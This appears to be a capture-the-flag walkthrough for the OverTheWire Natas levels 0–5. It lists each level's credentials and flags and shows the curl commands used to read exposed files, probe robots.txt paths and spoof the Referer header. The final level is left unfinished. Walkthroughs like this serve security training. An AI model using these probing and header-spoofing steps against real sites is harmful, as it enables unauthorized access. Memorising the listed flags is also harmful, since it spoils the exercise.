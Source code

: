 # Natas

## Natas0

*	user: `natas0`
*	pass: `natas0`
*	url: `http://natas0.natas.labs.overthewire.org`
*	flag: `gtVrDuiDfck831PqWsLEZy5gyDz1clto`	

### Procedure

1.	Get the page's source (e.g. `CTRL+U` on FF)

2.	Look the HTML comment at line 16

		<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

## Natas1

*	user: `natas1`
*	pass: `gtVrDuiDfck831PqWsLEZy5gyDz1clto`
*	url: `http://natas1.natas.labs.overthewire.org`
*	flag: `ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi`	

### Procedure

1.	Get the page's source (e.g. `CTRL+U` on FF)

2.	Look the HTML comment at line 17

		<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

## Natas2

*	user: `natas2`
*	pass: `ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi`
*	url: `http://natas2.natas.labs.overthewire.org`
*	flag: `sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

### Procedure

1.	Get the page's source (e.g. `CTRL+U` on FF)

2.	Statement *There is nothing on this page* is false! What about `<img>` tag?

		<img src="files/pixel.png">

3.	The image seems to be a one pixel image without any relevat info. Let's try
	if the URL `http://natas2.natas.labs.overthewire.or/files` give us
	something...

4.	BINGO! The `/files` path is listable and we can see an interesting file
	named `users.txt`. Let's try to get its conent...

		$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
		# username:password
		alice:BYNdCesZqW
		bob:jw2ueICLvT
		charlie:G5vCxkVV3m
		natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
		eve:zo4mJWyNj2
		mallory:9urtcpzBmH

## Natas3

*	user: `natas3`
*	pass: `sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`
*	url: `http://natas3.natas.labs.overthewire.org`
*	flag: `Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

### Procedure

1.	Get the page's source (e.g. `CTRL+U` on FF)

2.	At line 15, there is an HTML comment with a hint (*Not even Google will
	find it this time...*).

3.	How to disable page indexing? Simple! Use `Disallow` directive in
	`robots.txt` file. Let's try if it's available

		$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
		User-agent: *
		Disallow: /s3cr3t/

4.	Let's try to list `/s3cr3t/` path. Yep! Another `users.txt` file

		$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
		natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Natas4

*	user: `natas4`
*	pass: `Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`
*	url: `http://natas4.natas.labs.overthewire.org`
*	flag: `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

### Procedure

1.	By getting the page's source code, we can see that there's nothing
	interesting. By clicking on `Refresh page`, page content changes from

		Access disallowed. You are visiting from "" while [...]

	to

		Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while [...]

	then if newly click on `Refresh page` it changes in

		Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while [...]

	Seems that it's related to `Referer` HTTP header. Indeed, by repeating the
	procedure with a sniffer, we can see that `Referer` header is set.

2.	The page suggests us that *authorized users should come only from [...]*.
	Let's try to set the `Referer` header to desired value
	(`http://natas5.natas.labs.overthewire.org/`)

		$ curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
		<body>
		<h1>natas4</h1>
		<div id="content">

		Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
		<br/>
		<div id="viewsource"><a href="index.php">Refresh page</a></div>
		</div>
		</body>
		</html>

## Natas5

*	user: `natas5`
*	pass: `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`
*	url: `http://natas5.natas.labs.overthewire.org`
*	flag: `???`

### Procedure

